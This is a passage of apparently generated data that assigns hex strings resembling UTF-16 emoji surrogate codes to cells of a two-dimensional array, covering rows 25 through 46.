array[25][40] = "d83dde24"
array[25][41] = "d83dde21"
array[25][42] = "d83dde0c"
array[25][43] = "d83dde21"
array[25][44] = "d83dde26"
array[25][45] = "d83dde24"
array[25][46] = "d83dde23"
array[25][47] = "d83dde0f"
array[26][0] = "d83dde27"
array[26][1] = "d83dde11"
array[26][2] = "d83dde1b"
array[26][3] = "d83dde17"
array[26][4] = "d83dde14"
array[26][5] = "d83dde0b"
array[26][6] = "d83dde0c"
array[26][7] = "d83dde1b"
array[26][8] = "d83dde20"
array[26][9] = "d83dde1b"
array[26][10] = "d83dde26"
array[26][11] = "d83dde21"
array[26][12] = "d83dde06"
array[26][13] = "d83dde10"
array[26][14] = "d83dde17"
array[26][15] = "d83dde23"
array[26][16] = "d83dde23"
array[26][17] = "d83dde25"
array[26][18] = "d83dde10"
array[26][19] = "d83dde17"
array[26][20] = "d83dde1d"
array[26][21] = "d83dde22"
array[26][22] = "d83dde0e"
array[26][23] = "d83dde27"
array[26][24] = "d83dde08"
array[26][25] = "d83dde08"
array[26][26] = "d83dde03"
array[26][27] = "d83dde1b"
array[26][28] = "d83dde2b"
array[26][29] = "d83dde2a"
array[26][30] = "d83dde16"
array[26][31] = "d83dde09"
array[26][32] = "d83dde18"
array[26][33] = "d83dde1f"
array[26][34] = "d83dde13"
array[26][35] = "d83dde2d"
array[26][36] = "d83dde08"
array[26][37] = "d83dde22"
array[26][38] = "d83dde02"
array[26][39] = "d83dde12"
array[26][40] = "d83dde11"
array[26][41] = "d83dde2d"
array[26][42] = "d83dde10"
array[26][43] = "d83dde2d"
array[26][44] = "d83dde12"
array[26][45] = "d83dde18"
array[26][46] = "d83dde28"
array[26][47] = "d83dde0b"
array[27][0] = "d83dde00"
array[27][1] = "d83dde24"
array[27][2] = "d83dde0f"
array[27][3] = "d83dde2a"
array[27][4] = "d83dde2a"
array[27][5] = "d83dde13"
array[27][6] = "d83dde12"
array[27][7] = "d83dde16"
array[27][8] = "d83dde1d"
array[27][9] = "d83dde24"
array[27][10] = "d83dde25"
array[27][11] = "d83dde04"
array[27][12] = "d83dde05"
array[27][13] = "d83dde04"
array[27][14] = "d83dde11"
array[27][15] = "d83dde22"
array[27][16] = "d83dde0a"
array[27][17] = "d83dde19"
array[27][18] = "d83dde21"
array[27][19] = "d83dde02"
array[27][20] = "d83dde1e"
array[27][21] = "d83dde25"
array[27][22] = "d83dde1a"
array[27][23] = "d83dde10"
array[27][24] = "d83dde22"
array[27][25] = "d83dde2a"
array[27][26] = "d83dde12"
array[27][27] = "d83dde09"
array[27][28] = "d83dde05"
array[27][29] = "d83dde2d"
array[27][30] = "d83dde03"
array[27][31] = "d83dde2a"
array[27][32] = "d83dde18"
array[27][33] = "d83dde0b"
array[27][34] = "d83dde07"
array[27][35] = "d83dde1b"
array[27][36] = "d83dde20"
array[27][37] = "d83dde03"
array[27][38] = "d83dde17"
array[27][39] = "d83dde2b"
array[27][40] = "d83dde1d"
array[27][41] = "d83dde0d"
array[27][42] = "d83dde05"
array[27][43] = "d83dde23"
array[27][44] = "d83dde14"
array[27][45] = "d83dde17"
array[27][46] = "d83dde01"
array[27][47] = "d83dde16"
array[28][0] = "d83dde12"
array[28][1] = "d83dde16"
array[28][2] = "d83dde2d"
array[28][3] = "d83dde21"
array[28][4] = "d83dde0b"
array[28][5] = "d83dde20"
array[28][6] = "d83dde1f"
array[28][7] = "d83dde0e"
array[28][8] = "d83dde1e"
array[28][9] = "d83dde0b"
array[28][10] = "d83dde28"
array[28][11] = "d83dde27"
array[28][12] = "d83dde15"
array[28][13] = "d83dde0b"
array[28][14] = "d83dde22"
array[28][15] = "d83dde0b"
array[28][16] = "d83dde02"
array[28][17] = "d83dde0e"
array[28][18] = "d83dde1a"
array[28][19] = "d83dde0b"
array[28][20] = "d83dde25"
array[28][21] = "d83dde26"
array[28][22] = "d83dde1d"
array[28][23] = "d83dde17"
array[28][24] = "d83dde2d"
array[28][25] = "d83dde21"
array[28][26] = "d83dde17"
array[28][27] = "d83dde19"
array[28][28] = "d83dde16"
array[28][29] = "d83dde04"
array[28][30] = "d83dde29"
array[28][31] = "d83dde05"
array[28][32] = "d83dde00"
array[28][33] = "d83dde19"
array[28][34] = "d83dde1e"
array[28][35] = "d83dde24"
array[28][36] = "d83dde2d"
array[28][37] = "d83dde24"
array[28][38] = "d83dde1a"
array[28][39] = "d83dde0f"
array[28][40] = "d83dde13"
array[28][41] = "d83dde0a"
array[28][42] = "d83dde1a"
array[28][43] = "d83dde1f"
array[28][44] = "d83dde03"
array[28][45] = "d83dde28"
array[28][46] = "d83dde29"
array[28][47] = "d83dde08"
array[29][0] = "d83dde19"
array[29][1] = "d83dde09"
array[29][2] = "d83dde0c"
array[29][3] = "d83dde19"
array[29][4] = "d83dde28"
array[29][5] = "d83dde13"
array[29][6] = "d83dde1e"
array[29][7] = "d83dde0d"
array[29][8] = "d83dde02"
array[29][9] = "d83dde23"
array[29][10] = "d83dde1f"
array[29][11] = "d83dde0f"
array[29][12] = "d83dde05"
array[29][13] = "d83dde00"
array[29][14] = "d83dde10"
array[29][15] = "d83dde19"
array[29][16] = "d83dde26"
array[29][17] = "d83dde2f"
array[29][18] = "d83dde26"
array[29][19] = "d83dde26"
array[29][20] = "d83dde06"
array[29][21] = "d83dde1b"
array[29][22] = "d83dde06"
array[29][23] = "d83dde0f"
array[29][24] = "d83dde0a"
array[29][25] = "d83dde02"
array[29][26] = "d83dde0d"
array[29][27] = "d83dde0d"
array[29][28] = "d83dde03"
array[29][29] = "d83dde01"
array[29][30] = "d83dde04"
array[29][31] = "d83dde19"
array[29][32] = "d83dde21"
array[29][33] = "d83dde07"
array[29][34] = "d83dde06"
array[29][35] = "d83dde21"
array[29][36] = "d83dde15"
array[29][37] = "d83dde18"
array[29][38] = "d83dde15"
array[29][39] = "d83dde2d"
array[29][40] = "d83dde1a"
array[29][41] = "d83dde2f"
array[29][42] = "d83dde1c"
array[29][43] = "d83dde0e"
array[29][44] = "d83dde18"
array[29][45] = "d83dde0e"
array[29][46] = "d83dde20"
array[29][47] = "d83dde06"
array[30][0] = "d83dde13"
array[30][1] = "d83dde0b"
array[30][2] = "d83dde1c"
array[30][3] = "d83dde07"
array[30][4] = "d83dde2f"
array[30][5] = "d83dde27"
array[30][6] = "d83dde17"
array[30][7] = "d83dde2a"
array[30][8] = "d83dde0c"
array[30][9] = "d83dde17"
array[30][10] = "d83dde2e"
array[30][11] = "d83dde08"
array[30][12] = "d83dde1b"
array[30][13] = "d83dde0d"
array[30][14] = "d83dde00"
array[30][15] = "d83dde12"
array[30][16] = "d83dde15"
array[30][17] = "d83dde12"
array[30][18] = "d83dde1c"
array[30][19] = "d83dde06"
array[30][20] = "d83dde1a"
array[30][21] = "d83dde29"
array[30][22] = "d83dde0f"
array[30][23] = "d83dde2b"
array[30][24] = "d83dde0f"
array[30][25] = "d83dde05"
array[30][26] = "d83dde20"
array[30][27] = "d83dde03"
array[30][28] = "d83dde2f"
array[30][29] = "d83dde1e"
array[30][30] = "d83dde23"
array[30][31] = "d83dde0d"
array[30][32] = "d83dde02"
array[30][33] = "d83dde2f"
array[30][34] = "d83dde00"
array[30][35] = "d83dde19"
array[30][36] = "d83dde2f"
array[30][37] = "d83dde10"
array[30][38] = "d83dde0d"
array[30][39] = "d83dde12"
array[30][40] = "d83dde19"
array[30][41] = "d83dde18"
array[30][42] = "d83dde19"
array[30][43] = "d83dde08"
array[30][44] = "d83dde09"
array[30][45] = "d83dde1f"
array[30][46] = "d83dde1f"
array[30][47] = "d83dde01"
array[31][0] = "d83dde12"
array[31][1] = "d83dde00"
array[31][2] = "d83dde03"
array[31][3] = "d83dde2f"
array[31][4] = "d83dde2a"
array[31][5] = "d83dde21"
array[31][6] = "d83dde1b"
array[31][7] = "d83dde1e"
array[31][8] = "d83dde2b"
array[31][9] = "d83dde0e"
array[31][10] = "d83dde28"
array[31][11] = "d83dde12"
array[31][12] = "d83dde05"
array[31][13] = "d83dde2f"
array[31][14] = "d83dde2d"
array[31][15] = "d83dde22"
array[31][16] = "d83dde0f"
array[31][17] = "d83dde25"
array[31][18] = "d83dde1d"
array[31][19] = "d83dde2a"
array[31][20] = "d83dde28"
array[31][21] = "d83dde2f"
array[31][22] = "d83dde26"
array[31][23] = "d83dde2f"
array[31][24] = "d83dde1f"
array[31][25] = "d83dde1b"
array[31][26] = "d83dde18"
array[31][27] = "d83dde16"
array[31][28] = "d83dde0e"
array[31][29] = "d83dde1f"
array[31][30] = "d83dde2c"
array[31][31] = "d83dde01"
array[31][32] = "d83dde2d"
array[31][33] = "d83dde09"
array[31][34] = "d83dde28"
array[31][35] = "d83dde2c"
array[31][36] = "d83dde0d"
array[31][37] = "d83dde13"
array[31][38] = "d83dde17"
array[31][39] = "d83dde04"
array[31][40] = "d83dde0f"
array[31][41] = "d83dde1d"
array[31][42] = "d83dde07"
array[31][43] = "d83dde2f"
array[31][44] = "d83dde06"
array[31][45] = "d83dde08"
array[31][46] = "d83dde0c"
array[31][47] = "d83dde0f"
array[32][0] = "d83dde1e"
array[32][1] = "d83dde15"
array[32][2] = "d83dde1b"
array[32][3] = "d83dde01"
array[32][4] = "d83dde08"
array[32][5] = "d83dde2f"
array[32][6] = "d83dde1a"
array[32][7] = "d83dde0e"
array[32][8] = "d83dde1a"
array[32][9] = "d83dde14"
array[32][10] = "d83dde04"
array[32][11] = "d83dde0d"
array[32][12] = "d83dde23"
array[32][13] = "d83dde13"
array[32][14] = "d83dde00"
array[32][15] = "d83dde2f"
array[32][16] = "d83dde29"
array[32][17] = "d83dde15"
array[32][18] = "d83dde08"
array[32][19] = "d83dde25"
array[32][20] = "d83dde17"
array[32][21] = "d83dde26"
array[32][22] = "d83dde15"
array[32][23] = "d83dde22"
array[32][24] = "d83dde2a"
array[32][25] = "d83dde00"
array[32][26] = "d83dde07"
array[32][27] = "d83dde05"
array[32][28] = "d83dde03"
array[32][29] = "d83dde2e"
array[32][30] = "d83dde07"
array[32][31] = "d83dde10"
array[32][32] = "d83dde25"
array[32][33] = "d83dde1f"
array[32][34] = "d83dde11"
array[32][35] = "d83dde1a"
array[32][36] = "d83dde1d"
array[32][37] = "d83dde00"
array[32][38] = "d83dde1f"
array[32][39] = "d83dde23"
array[32][40] = "d83dde01"
array[32][41] = "d83dde0b"
array[32][42] = "d83dde0f"
array[32][43] = "d83dde21"
array[32][44] = "d83dde1f"
array[32][45] = "d83dde1a"
array[32][46] = "d83dde07"
array[32][47] = "d83dde08"
array[33][0] = "d83dde19"
array[33][1] = "d83dde2b"
array[33][2] = "d83dde13"
array[33][3] = "d83dde12"
array[33][4] = "d83dde0b"
array[33][5] = "d83dde15"
array[33][6] = "d83dde0c"
array[33][7] = "d83dde1c"
array[33][8] = "d83dde1e"
array[33][9] = "d83dde2a"
array[33][10] = "d83dde2d"
array[33][11] = "d83dde2a"
array[33][12] = "d83dde0f"
array[33][13] = "d83dde2b"
array[33][14] = "d83dde1d"
array[33][15] = "d83dde08"
array[33][16] = "d83dde1f"
array[33][17] = "d83dde0b"
array[33][18] = "d83dde04"
array[33][19] = "d83dde04"
array[33][20] = "d83dde2b"
array[33][21] = "d83dde22"
array[33][22] = "d83dde2d"
array[33][23] = "d83dde14"
array[33][24] = "d83dde17"
array[33][25] = "d83dde22"
array[33][26] = "d83dde25"
array[33][27] = "d83dde09"
array[33][28] = "d83dde18"
array[33][29] = "d83dde16"
array[33][30] = "d83dde26"
array[33][31] = "d83dde02"
array[33][32] = "d83dde1c"
array[33][33] = "d83dde21"
array[33][34] = "d83dde2d"
array[33][35] = "d83dde13"
array[33][36] = "d83dde14"
array[33][37] = "d83dde1a"
array[33][38] = "d83dde15"
array[33][39] = "d83dde26"
array[33][40] = "d83dde17"
array[33][41] = "d83dde03"
array[33][42] = "d83dde01"
array[33][43] = "d83dde20"
array[33][44] = "d83dde06"
array[33][45] = "d83dde1d"
array[33][46] = "d83dde2a"
array[33][47] = "d83dde1c"
array[34][0] = "d83dde04"
array[34][1] = "d83dde23"
array[34][2] = "d83dde1b"
array[34][3] = "d83dde2d"
array[34][4] = "d83dde0a"
array[34][5] = "d83dde2d"
array[34][6] = "d83dde2f"
array[34][7] = "d83dde2d"
array[34][8] = "d83dde12"
array[34][9] = "d83dde1e"
array[34][10] = "d83dde08"
array[34][11] = "d83dde20"
array[34][12] = "d83dde11"
array[34][13] = "d83dde1b"
array[34][14] = "d83dde07"
array[34][15] = "d83dde1e"
array[34][16] = "d83dde1a"
array[34][17] = "d83dde1f"
array[34][18] = "d83dde02"
array[34][19] = "d83dde16"
array[34][20] = "d83dde10"
array[34][21] = "d83dde12"
array[34][22] = "d83dde05"
array[34][23] = "d83dde05"
array[34][24] = "d83dde14"
array[34][25] = "d83dde0d"
array[34][26] = "d83dde02"
array[34][27] = "d83dde0e"
array[34][28] = "d83dde18"
array[34][29] = "d83dde24"
array[34][30] = "d83dde0e"
array[34][31] = "d83dde0c"
array[34][32] = "d83dde01"
array[34][33] = "d83dde1e"
array[34][34] = "d83dde2b"
array[34][35] = "d83dde29"
array[34][36] = "d83dde06"
array[34][37] = "d83dde08"
array[34][38] = "d83dde26"
array[34][39] = "d83dde1c"
array[34][40] = "d83dde2a"
array[34][41] = "d83dde16"
array[34][42] = "d83dde18"
array[34][43] = "d83dde05"
array[34][44] = "d83dde26"
array[34][45] = "d83dde28"
array[34][46] = "d83dde24"
array[34][47] = "d83dde04"
array[35][0] = "d83dde0e"
array[35][1] = "d83dde22"
array[35][2] = "d83dde0e"
array[35][3] = "d83dde2e"
array[35][4] = "d83dde01"
array[35][5] = "d83dde26"
array[35][6] = "d83dde05"
array[35][7] = "d83dde27"
array[35][8] = "d83dde2e"
array[35][9] = "d83dde19"
array[35][10] = "d83dde1e"
array[35][11] = "d83dde25"
array[35][12] = "d83dde1e"
array[35][13] = "d83dde2c"
array[35][14] = "d83dde26"
array[35][15] = "d83dde0f"
array[35][16] = "d83dde0c"
array[35][17] = "d83dde11"
array[35][18] = "d83dde1d"
array[35][19] = "d83dde1e"
array[35][20] = "d83dde08"
array[35][21] = "d83dde22"
array[35][22] = "d83dde2c"
array[35][23] = "d83dde1e"
array[35][24] = "d83dde2f"
array[35][25] = "d83dde0b"
array[35][26] = "d83dde01"
array[35][27] = "d83dde13"
array[35][28] = "d83dde0d"
array[35][29] = "d83dde16"
array[35][30] = "d83dde0c"
array[35][31] = "d83dde21"
array[35][32] = "d83dde21"
array[35][33] = "d83dde21"
array[35][34] = "d83dde25"
array[35][35] = "d83dde24"
array[35][36] = "d83dde27"
array[35][37] = "d83dde0c"
array[35][38] = "d83dde2e"
array[35][39] = "d83dde13"
array[35][40] = "d83dde09"
array[35][41] = "d83dde14"
array[35][42] = "d83dde0d"
array[35][43] = "d83dde25"
array[35][44] = "d83dde26"
array[35][45] = "d83dde11"
array[35][46] = "d83dde22"
array[35][47] = "d83dde2d"
array[36][0] = "d83dde08"
array[36][1] = "d83dde2d"
array[36][2] = "d83dde2b"
array[36][3] = "d83dde1a"
array[36][4] = "d83dde01"
array[36][5] = "d83dde1c"
array[36][6] = "d83dde0f"
array[36][7] = "d83dde23"
array[36][8] = "d83dde27"
array[36][9] = "d83dde06"
array[36][10] = "d83dde08"
array[36][11] = "d83dde1a"
array[36][12] = "d83dde29"
array[36][13] = "d83dde16"
array[36][14] = "d83dde1c"
array[36][15] = "d83dde15"
array[36][16] = "d83dde08"
array[36][17] = "d83dde15"
array[36][18] = "d83dde00"
array[36][19] = "d83dde0e"
array[36][20] = "d83dde28"
array[36][21] = "d83dde06"
array[36][22] = "d83dde1f"
array[36][23] = "d83dde29"
array[36][24] = "d83dde04"
array[36][25] = "d83dde18"
array[36][26] = "d83dde14"
array[36][27] = "d83dde1a"
array[36][28] = "d83dde2b"
array[36][29] = "d83dde1d"
array[36][30] = "d83dde24"
array[36][31] = "d83dde01"
array[36][32] = "d83dde05"
array[36][33] = "d83dde07"
array[36][34] = "d83dde06"
array[36][35] = "d83dde2a"
array[36][36] = "d83dde04"
array[36][37] = "d83dde23"
array[36][38] = "d83dde12"
array[36][39] = "d83dde15"
array[36][40] = "d83dde27"
array[36][41] = "d83dde06"
array[36][42] = "d83dde10"
array[36][43] = "d83dde22"
array[36][44] = "d83dde21"
array[36][45] = "d83dde02"
array[36][46] = "d83dde11"
array[36][47] = "d83dde0b"
array[37][0] = "d83dde15"
array[37][1] = "d83dde28"
array[37][2] = "d83dde12"
array[37][3] = "d83dde2e"
array[37][4] = "d83dde0e"
array[37][5] = "d83dde1a"
array[37][6] = "d83dde25"
array[37][7] = "d83dde28"
array[37][8] = "d83dde1d"
array[37][9] = "d83dde06"
array[37][10] = "d83dde28"
array[37][11] = "d83dde0b"
array[37][12] = "d83dde26"
array[37][13] = "d83dde0a"
array[37][14] = "d83dde03"
array[37][15] = "d83dde18"
array[37][16] = "d83dde17"
array[37][17] = "d83dde0f"
array[37][18] = "d83dde0c"
array[37][19] = "d83dde29"
array[37][20] = "d83dde01"
array[37][21] = "d83dde1d"
array[37][22] = "d83dde03"
array[37][23] = "d83dde17"
array[37][24] = "d83dde28"
array[37][25] = "d83dde19"
array[37][26] = "d83dde2d"
array[37][27] = "d83dde1c"
array[37][28] = "d83dde28"
array[37][29] = "d83dde07"
array[37][30] = "d83dde01"
array[37][31] = "d83dde19"
array[37][32] = "d83dde22"
array[37][33] = "d83dde06"
array[37][34] = "d83dde09"
array[37][35] = "d83dde04"
array[37][36] = "d83dde26"
array[37][37] = "d83dde2e"
array[37][38] = "d83dde2e"
array[37][39] = "d83dde25"
array[37][40] = "d83dde2a"
array[37][41] = "d83dde20"
array[37][42] = "d83dde0e"
array[37][43] = "d83dde2b"
array[37][44] = "d83dde2c"
array[37][45] = "d83dde0f"
array[37][46] = "d83dde1e"
array[37][47] = "d83dde1a"
array[38][0] = "d83dde03"
array[38][1] = "d83dde11"
array[38][2] = "d83dde26"
array[38][3] = "d83dde02"
array[38][4] = "d83dde06"
array[38][5] = "d83dde2c"
array[38][6] = "d83dde25"
array[38][7] = "d83dde20"
array[38][8] = "d83dde03"
array[38][9] = "d83dde11"
array[38][10] = "d83dde1a"
array[38][11] = "d83dde05"
array[38][12] = "d83dde10"
array[38][13] = "d83dde09"
array[38][14] = "d83dde2c"
array[38][15] = "d83dde2f"
array[38][16] = "d83dde12"
array[38][17] = "d83dde01"
array[38][18] = "d83dde06"
array[38][19] = "d83dde09"
array[38][20] = "d83dde2c"
array[38][21] = "d83dde2d"
array[38][22] = "d83dde2b"
array[38][23] = "d83dde0c"
array[38][24] = "d83dde2a"
array[38][25] = "d83dde19"
array[38][26] = "d83dde24"
array[38][27] = "d83dde0b"
array[38][28] = "d83dde2f"
array[38][29] = "d83dde05"
array[38][30] = "d83dde22"
array[38][31] = "d83dde0d"
array[38][32] = "d83dde0e"
array[38][33] = "d83dde17"
array[38][34] = "d83dde2e"
array[38][35] = "d83dde17"
array[38][36] = "d83dde10"
array[38][37] = "d83dde20"
array[38][38] = "d83dde26"
array[38][39] = "d83dde05"
array[38][40] = "d83dde09"
array[38][41] = "d83dde25"
array[38][42] = "d83dde16"
array[38][43] = "d83dde17"
array[38][44] = "d83dde09"
array[38][45] = "d83dde24"
array[38][46] = "d83dde0b"
array[38][47] = "d83dde18"
array[39][0] = "d83dde13"
array[39][1] = "d83dde0e"
array[39][2] = "d83dde09"
array[39][3] = "d83dde2e"
array[39][4] = "d83dde27"
array[39][5] = "d83dde1f"
array[39][6] = "d83dde13"
array[39][7] = "d83dde13"
array[39][8] = "d83dde19"
array[39][9] = "d83dde15"
array[39][10] = "d83dde0e"
array[39][11] = "d83dde2c"
array[39][12] = "d83dde07"
array[39][13] = "d83dde14"
array[39][14] = "d83dde2f"
array[39][15] = "d83dde0c"
array[39][16] = "d83dde2d"
array[39][17] = "d83dde1a"
array[39][18] = "d83dde08"
array[39][19] = "d83dde01"
array[39][20] = "d83dde15"
array[39][21] = "d83dde14"
array[39][22] = "d83dde20"
array[39][23] = "d83dde27"
array[39][24] = "d83dde24"
array[39][25] = "d83dde1b"
array[39][26] = "d83dde23"
array[39][27] = "d83dde1c"
array[39][28] = "d83dde0b"
array[39][29] = "d83dde29"
array[39][30] = "d83dde12"
array[39][31] = "d83dde21"
array[39][32] = "d83dde13"
array[39][33] = "d83dde10"
array[39][34] = "d83dde2a"
array[39][35] = "d83dde1d"
array[39][36] = "d83dde07"
array[39][37] = "d83dde0c"
array[39][38] = "d83dde0b"
array[39][39] = "d83dde03"
array[39][40] = "d83dde23"
array[39][41] = "d83dde29"
array[39][42] = "d83dde21"
array[39][43] = "d83dde12"
array[39][44] = "d83dde2d"
array[39][45] = "d83dde23"
array[39][46] = "d83dde01"
array[39][47] = "d83dde11"
array[40][0] = "d83dde27"
array[40][1] = "d83dde2b"
array[40][2] = "d83dde00"
array[40][3] = "d83dde0e"
array[40][4] = "d83dde1d"
array[40][5] = "d83dde2f"
array[40][6] = "d83dde0c"
array[40][7] = "d83dde12"
array[40][8] = "d83dde19"
array[40][9] = "d83dde11"
array[40][10] = "d83dde11"
array[40][11] = "d83dde23"
array[40][12] = "d83dde03"
array[40][13] = "d83dde26"
array[40][14] = "d83dde0f"
array[40][15] = "d83dde2c"
array[40][16] = "d83dde1c"
array[40][17] = "d83dde1f"
array[40][18] = "d83dde09"
array[40][19] = "d83dde20"
array[40][20] = "d83dde02"
array[40][21] = "d83dde13"
array[40][22] = "d83dde10"
array[40][23] = "d83dde01"
array[40][24] = "d83dde27"
array[40][25] = "d83dde15"
array[40][26] = "d83dde03"
array[40][27] = "d83dde2c"
array[40][28] = "d83dde04"
array[40][29] = "d83dde14"
array[40][30] = "d83dde02"
array[40][31] = "d83dde01"
array[40][32] = "d83dde15"
array[40][33] = "d83dde1a"
array[40][34] = "d83dde0f"
array[40][35] = "d83dde0b"
array[40][36] = "d83dde2c"
array[40][37] = "d83dde00"
array[40][38] = "d83dde2f"
array[40][39] = "d83dde0b"
array[40][40] = "d83dde0e"
array[40][41] = "d83dde14"
array[40][42] = "d83dde0f"
array[40][43] = "d83dde15"
array[40][44] = "d83dde0d"
array[40][45] = "d83dde16"
array[40][46] = "d83dde2c"
array[40][47] = "d83dde24"
array[41][0] = "d83dde03"
array[41][1] = "d83dde09"
array[41][2] = "d83dde15"
array[41][3] = "d83dde07"
array[41][4] = "d83dde2a"
array[41][5] = "d83dde01"
array[41][6] = "d83dde20"
array[41][7] = "d83dde10"
array[41][8] = "d83dde0b"
array[41][9] = "d83dde15"
array[41][10] = "d83dde2a"
array[41][11] = "d83dde1c"
array[41][12] = "d83dde08"
array[41][13] = "d83dde22"
array[41][14] = "d83dde27"
array[41][15] = "d83dde05"
array[41][16] = "d83dde0c"
array[41][17] = "d83dde20"
array[41][18] = "d83dde2f"
array[41][19] = "d83dde22"
array[41][20] = "d83dde15"
array[41][21] = "d83dde29"
array[41][22] = "d83dde22"
array[41][23] = "d83dde27"
array[41][24] = "d83dde02"
array[41][25] = "d83dde26"
array[41][26] = "d83dde1c"
array[41][27] = "d83dde2c"
array[41][28] = "d83dde1d"
array[41][29] = "d83dde2e"
array[41][30] = "d83dde2b"
array[41][31] = "d83dde2b"
array[41][32] = "d83dde1a"
array[41][33] = "d83dde1e"
array[41][34] = "d83dde0c"
array[41][35] = "d83dde0e"
array[41][36] = "d83dde04"
array[41][37] = "d83dde14"
array[41][38] = "d83dde06"
array[41][39] = "d83dde11"
array[41][40] = "d83dde18"
array[41][41] = "d83dde25"
array[41][42] = "d83dde17"
array[41][43] = "d83dde2c"
array[41][44] = "d83dde14"
array[41][45] = "d83dde2a"
array[41][46] = "d83dde2a"
array[41][47] = "d83dde2f"
array[42][0] = "d83dde2e"
array[42][1] = "d83dde18"
array[42][2] = "d83dde2a"
array[42][3] = "d83dde0a"
array[42][4] = "d83dde1e"
array[42][5] = "d83dde10"
array[42][6] = "d83dde14"
array[42][7] = "d83dde20"
array[42][8] = "d83dde1d"
array[42][9] = "d83dde1c"
array[42][10] = "d83dde0a"
array[42][11] = "d83dde11"
array[42][12] = "d83dde08"
array[42][13] = "d83dde11"
array[42][14] = "d83dde06"
array[42][15] = "d83dde2c"
array[42][16] = "d83dde28"
array[42][17] = "d83dde14"
array[42][18] = "d83dde27"
array[42][19] = "d83dde1d"
array[42][20] = "d83dde20"
array[42][21] = "d83dde21"
array[42][22] = "d83dde27"
array[42][23] = "d83dde2d"
array[42][24] = "d83dde1f"
array[42][25] = "d83dde17"
array[42][26] = "d83dde0d"
array[42][27] = "d83dde1e"
array[42][28] = "d83dde06"
array[42][29] = "d83dde1a"
array[42][30] = "d83dde29"
array[42][31] = "d83dde2f"
array[42][32] = "d83dde24"
array[42][33] = "d83dde08"
array[42][34] = "d83dde20"
array[42][35] = "d83dde16"
array[42][36] = "d83dde24"
array[42][37] = "d83dde1b"
array[42][38] = "d83dde27"
array[42][39] = "d83dde0f"
array[42][40] = "d83dde20"
array[42][41] = "d83dde18"
array[42][42] = "d83dde29"
array[42][43] = "d83dde02"
array[42][44] = "d83dde05"
array[42][45] = "d83dde03"
array[42][46] = "d83dde28"
array[42][47] = "d83dde1c"
array[43][0] = "d83dde04"
array[43][1] = "d83dde1b"
array[43][2] = "d83dde13"
array[43][3] = "d83dde0e"
array[43][4] = "d83dde10"
array[43][5] = "d83dde15"
array[43][6] = "d83dde02"
array[43][7] = "d83dde27"
array[43][8] = "d83dde2c"
array[43][9] = "d83dde1b"
array[43][10] = "d83dde0f"
array[43][11] = "d83dde12"
array[43][12] = "d83dde03"
array[43][13] = "d83dde2a"
array[43][14] = "d83dde2d"
array[43][15] = "d83dde1a"
array[43][16] = "d83dde25"
array[43][17] = "d83dde04"
array[43][18] = "d83dde00"
array[43][19] = "d83dde09"
array[43][20] = "d83dde1b"
array[43][21] = "d83dde04"
array[43][22] = "d83dde16"
array[43][23] = "d83dde03"
array[43][24] = "d83dde26"
array[43][25] = "d83dde1c"
array[43][26] = "d83dde12"
array[43][27] = "d83dde11"
array[43][28] = "d83dde23"
array[43][29] = "d83dde20"
array[43][30] = "d83dde1d"
array[43][31] = "d83dde2a"
array[43][32] = "d83dde27"
array[43][33] = "d83dde00"
array[43][34] = "d83dde0f"
array[43][35] = "d83dde0d"
array[43][36] = "d83dde2e"
array[43][37] = "d83dde11"
array[43][38] = "d83dde00"
array[43][39] = "d83dde07"
array[43][40] = "d83dde1a"
array[43][41] = "d83dde2c"
array[43][42] = "d83dde14"
array[43][43] = "d83dde01"
array[43][44] = "d83dde05"
array[43][45] = "d83dde2b"
array[43][46] = "d83dde24"
array[43][47] = "d83dde07"
array[44][0] = "d83dde16"
array[44][1] = "d83dde0d"
array[44][2] = "d83dde08"
array[44][3] = "d83dde17"
array[44][4] = "d83dde12"
array[44][5] = "d83dde05"
array[44][6] = "d83dde03"
array[44][7] = "d83dde23"
array[44][8] = "d83dde0f"
array[44][9] = "d83dde02"
array[44][10] = "d83dde14"
array[44][11] = "d83dde1a"
array[44][12] = "d83dde16"
array[44][13] = "d83dde08"
array[44][14] = "d83dde0d"
array[44][15] = "d83dde1e"
array[44][16] = "d83dde15"
array[44][17] = "d83dde1b"
array[44][18] = "d83dde16"
array[44][19] = "d83dde05"
array[44][20] = "d83dde03"
array[44][21] = "d83dde14"
array[44][22] = "d83dde17"
array[44][23] = "d83dde15"
array[44][24] = "d83dde2f"
array[44][25] = "d83dde0d"
array[44][26] = "d83dde0f"
array[44][27] = "d83dde0e"
array[44][28] = "d83dde02"
array[44][29] = "d83dde1c"
array[44][30] = "d83dde04"
array[44][31] = "d83dde03"
array[44][32] = "d83dde01"
array[44][33] = "d83dde13"
array[44][34] = "d83dde1b"
array[44][35] = "d83dde1e"
array[44][36] = "d83dde18"
array[44][37] = "d83dde2c"
array[44][38] = "d83dde1e"
array[44][39] = "d83dde09"
array[44][40] = "d83dde15"
array[44][41] = "d83dde23"
array[44][42] = "d83dde07"
array[44][43] = "d83dde20"
array[44][44] = "d83dde0a"
array[44][45] = "d83dde16"
array[44][46] = "d83dde26"
array[44][47] = "d83dde2f"
array[45][0] = "d83dde0f"
array[45][1] = "d83dde13"
array[45][2] = "d83dde11"
array[45][3] = "d83dde0c"
array[45][4] = "d83dde2a"
array[45][5] = "d83dde06"
array[45][6] = "d83dde16"
array[45][7] = "d83dde2c"
array[45][8] = "d83dde18"
array[45][9] = "d83dde2e"
array[45][10] = "d83dde1e"
array[45][11] = "d83dde16"
array[45][12] = "d83dde05"
array[45][13] = "d83dde1f"
array[45][14] = "d83dde0f"
array[45][15] = "d83dde09"
array[45][16] = "d83dde07"
array[45][17] = "d83dde04"
array[45][18] = "d83dde11"
array[45][19] = "d83dde1d"
array[45][20] = "d83dde11"
array[45][21] = "d83dde13"
array[45][22] = "d83dde29"
array[45][23] = "d83dde25"
array[45][24] = "d83dde2b"
array[45][25] = "d83dde13"
array[45][26] = "d83dde1b"
array[45][27] = "d83dde1d"
array[45][28] = "d83dde13"
array[45][29] = "d83dde0d"
array[45][30] = "d83dde0b"
array[45][31] = "d83dde1c"
array[45][32] = "d83dde1c"
array[45][33] = "d83dde00"
array[45][34] = "d83dde25"
array[45][35] = "d83dde14"
array[45][36] = "d83dde24"
array[45][37] = "d83dde1f"
array[45][38] = "d83dde17"
array[45][39] = "d83dde27"
array[45][40] = "d83dde20"
array[45][41] = "d83dde1d"
array[45][42] = "d83dde09"
array[45][43] = "d83dde29"
array[45][44] = "d83dde17"
array[45][45] = "d83dde02"
array[45][46] = "d83dde24"
array[45][47] = "d83dde11"
array[46][0] = "d83dde2e"
array[46][1] = "d83dde00"
array[46][2] = "d83dde2b"
array[46][3] = "d83dde17"
array[46][4] = "d83dde13"
array[46][5] = "d83dde0a"
array[46][6] = "d83dde29"
